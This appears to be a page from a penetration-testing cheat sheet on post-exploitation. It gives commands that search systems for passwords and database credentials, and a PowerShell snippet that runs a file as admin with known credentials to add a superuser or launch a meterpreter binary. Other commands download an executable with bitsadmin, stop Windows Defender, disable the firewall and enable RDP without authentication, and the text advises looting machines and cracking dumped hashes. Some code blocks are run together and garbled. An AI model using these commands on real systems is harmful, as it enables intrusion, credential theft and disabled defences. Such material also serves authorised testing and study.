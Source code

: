 # **Post Exploitation**

```
grep -rnw '/' -ie 'pass' --color=alwaysgrep -rnw '/' -ie 'DB_PASS' --color=alwaysgrep -rnw '/' -ie 'DB_PASSWORD' --color=alwaysgrep -rnw '/' -ie 'DB_USER' --color=always
```

## **File Upload on linux systems via base64 encoding Converting a file to base64: <a href="#file-upload-on-linux-systems-via-base64-encoding-converting-a-file-to-base-64" id="file-upload-on-linux-systems-via-base64-encoding-converting-a-file-to-base-64"></a>**

Once the file is converted to base64, you can just create a new file on the remote system and copy the base64 output of the above file into it. Next step would be to reverse the base64 to binary

```
cat fileWithBase64Content | base64 -d > finalBinary
```

You can also use the smbserver.py from Impacket’s repo to host a temporary smb server and fetch files in windows from remote smb servers using the net use command.

## **PSexec Shells of Remote Systems <a href="#psexec-shells-of-remote-systems" id="psexec-shells-of-remote-systems"></a>**

Eg: Get cmd.exe shell of remote system with user administrator and password as [\[email protected\]](https://oscp.infosecsanyam.in/cdn-cgi/l/email-protection)

## **Powershell Sudo for Windows  <a href="#powershell-sudo-for-windows" id="powershell-sudo-for-windows"></a>**

There maybe times when you know the creds to admin, but will have a low privileged shell. Unlike Linux, we cannot sudo on windows machines. So, I wrote a simple powershell script for that which can run a separate file as admin. You can run a batch file to add a new superuser or just execute a meterpreter binary as admin. The below command is to be run in a powershell window:

```
​$pw= convertto-securestring "EnterPasswordHere" -asplaintext -force$pp = new-object -typename System.Management.Automation.PSCredential -argumentlist "EnterDomainName\EnterUserName",$pw$script = "C:\Users\EnterUserName\AppData\Local\Temp\test.bat"Start-Process powershell -Credential $pp -ArgumentList '-noprofile -command &{Start-Process $script -verb Runas}'
```

If however you want to run the powershell from a cmd prompt, you can run store the above command in a xyz.ps1 file and run it in cmd as below:

```
powershell -ExecutionPolicy Bypass -File xyz.ps1​
```

Download files in Windows with

bitsadmin bitsadmin /transfer mydownloadjob /download /priority normal http:///xyz.exe C:\Users\\%USERNAME%\AppData\local\temp\xyz.exe

Disable firewall/defender and enable RDP for all Sometimes you will have the admin creds and may require an RDP Session to find out what exactly is going on in the backend for post exploitation. Below commands will help you disable firewall and enable RDP over insecure connections

```
sc stop WinDefendnetsh advfirewall show allprofilesnetsh advfirewall set allprofiles state offnetsh firewall set opmode disablereg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /freg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v UserAuthentication /t REG_DWORD /d 0 /f
```

Print files with the line number where the string is found grep -rnw '/' -ie 'password' --color=always

## **Find files with SUID permission  <a href="#find-files-with-suid-permission" id="find-files-with-suid-permission"></a>**

```
find / -perm -4000 -type f 2>/dev/null
```

## **Find files with open permissions <a href="#find-files-with-open-permissions" id="find-files-with-open-permissions"></a>**

```
 find / -perm -777 -type f 2>/dev/null
```

## **Find files with SUID permission for current user <a href="#find-files-with-suid-permission-for-current-user" id="find-files-with-suid-permission-for-current-user"></a>**

```
find / perm /u=s -user `whoami` 2>/dev/nullfind / -user root -perm -4000 -print 2>/dev/null
```

## **Find files with writable permission for current user or current group  <a href="#find-files-with-writable-permission-for-current-user-or-current-group" id="find-files-with-writable-permission-for-current-user-or-current-group"></a>**

```
find / perm /u=w -user `whoami` 2>/dev/nullfind / -perm /u+w,g+w -f -user `whoami` 2>/dev/nullfind / -perm /u+w -user `whoami` 2>/dev/nul
```

## **Find directories with writable permissions for current user or current group  <a href="#find-directories-with-writable-permissions-for-current-user-or-current-group" id="find-directories-with-writable-permissions-for-current-user-or-current-group"></a>**

```
find / perm /u=w -type -d -user `whoami` 2>/dev/nullfind / -perm /u+w,g+w -d -user `whoami` 2>/dev/null
```

In order to move horizontally on the network we need to know as much about the machine as possible. We need to loot it. These are some things that must be done on every compromised machine.

### **Tcp dump <a href="#tcp-dump" id="tcp-dump"></a>**

Who else is connected to the machine?

### **Dump the hashes <a href="#dump-the-hashes" id="dump-the-hashes"></a>**

It is always good to have a list of all the hashes and crack them. Maybe someone is reusing the password.

### **To what is the machine connected? <a href="#to-what-is-the-machine-connected" id="to-what-is-the-machine-connected"></a>**

netstat

ipconfig

### **Email and personal files <a href="#email-and-personal-files" id="email-and-personal-files"></a>**

### **Logs <a href="#logs" id="logs"></a>**

​ ​
